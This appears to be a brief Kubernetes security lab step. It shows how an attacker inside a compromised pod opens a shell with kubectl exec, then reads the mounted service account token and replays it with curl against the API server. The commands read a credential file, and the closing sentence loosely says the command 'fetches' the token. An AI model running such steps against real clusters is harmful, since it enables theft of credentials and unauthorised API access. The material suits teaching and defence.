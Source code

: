 **Accessing Service Account Token:** An attacker, who has gained access to a compromised pod, can access the service account token. They might execute a command like this:

`kubectl exec -it $POD -- bash`{{exec}}

**Fetching the Service Account Token:** Once inside the compromised pod, the attacker can retrieve the service account token using a command like this:

`curl https://$KUBERNETES_PORT_443_TCP_ADDR/api --insecure --header "Authorization: Bearer $(cat /run/secrets/kubernetes.io/serviceaccount/token)" && exit`{{exec}}

This command fetches the service account token, which is used for authenticating with the Kubernetes API server.



